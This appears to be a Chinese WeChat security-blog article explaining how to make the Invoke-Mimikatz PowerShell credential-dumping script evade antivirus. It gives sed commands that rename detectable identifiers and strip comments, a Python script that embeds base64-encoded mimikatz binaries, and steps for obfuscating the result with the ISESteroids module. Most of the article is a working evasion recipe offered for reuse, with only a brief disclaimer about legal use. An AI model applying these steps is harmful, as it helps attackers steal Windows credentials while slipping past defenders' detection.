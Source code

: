 ##  再探mimikatz免杀

原创 鸿鹄实验室a [ 鸿鹄实验室 ](javascript:void\(0\);)

**鸿鹄实验室** ![]()

微信号 gh_a2210090ba3f

功能介绍 鸿鹄实验室，欢迎关注

____

__

收录于话题

    前几天看了tubai师傅的免杀抓密码，这里我也来分享一下mimiktaz的powershell脚本的免杀方法。  

  

测试使用的mimikatz文件地址如下：  

  

https://github.com/BC-
SECURITY/Empire/blob/master/empire/server/data/module_source/credentials/Invoke-
Mimikatz.ps1

  

   首先，关于powershell脚本来说有很多现成的混淆工具(主流免杀方式就是混淆)，比如chameleon、Invoke-
Stealth、Chimera等等，但此类工具在混淆mimikatz时，或多或少会出现部分问题。于是我们这里手工对其进行免杀操作。

  

   先对mimikatz的ps脚本执行基础的字符混淆  

  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1  
    sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1  
    sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1  
    sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1  
    sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1  
    sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805091251.png)

  

弄完后一些基础的东西就算是混淆完成了，如果你想更新mimikatz，可以使用下面的py脚本进行更新

  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    import fileinputimport base64  
      
      
    with open("./mimikatz_trunk/Win32/mimikatz.exe", "rb") as f:    win32 = base64.b64encode(f.read()).decode()  
    with open("./mimikatz_trunk/x64/mimikatz.exe", "rb") as f:    x64 = base64.b64encode(f.read()).decode()  
      
    for line in fileinput.FileInput("./Invoke-Mimikatz.ps1", inplace=1):  
      line = line.rstrip('\r\n')  if "$PEBytes64 = " in line:    print("$PEBytes64 = '" + x64 + "'")  elif "$PEBytes32 = " in line:    print("$PEBytes32 = '" + win32 + "'")  else:    print(line)

  

此时我们的mimikatz并不能绕过杀软，我们需要利用powershell ise自带的功能来进行后续操作  

  

先来安装该模块，命令如下：  

  

  * 

    
    
    Install-Module -Name "ISESteroids" -Scope CurrentUser -Repository PSGallery -Force

  

安装好以后在ise输入  

  

  * 

    
    
     Start-Steroids

  

开启该模块

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805091253.png)

  

然后在工具中选择混淆代码  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805091254.png)

  

混淆即可，此时所有操作已经完成。  

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805091255.png)

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](https://gitee.com/fuli009/images/raw/master/public/20210805091256.png)

  

  

![]()

鸿鹄实验室a

![赞赏二维码]() **微信扫一扫赞赏作者** 赞赏

已喜欢，[对作者说句悄悄话](javascript:;)

取消 __

#### 发送给作者

发送

最多40字，当前共字

[](javascript:;) 人赞赏

上一页 [1](javascript:;)/3 下一页

长按二维码向我转账

受苹果公司新规定影响，微信 iOS 版的赞赏功能被关闭，可通过二维码转账支持公众号。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

再探mimikatz免杀

最多200字，当前共字

__

发送中

微信扫一扫  
关注该公众号

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

[知道了](javascript:;)

**长按识别前往小程序**

![]()

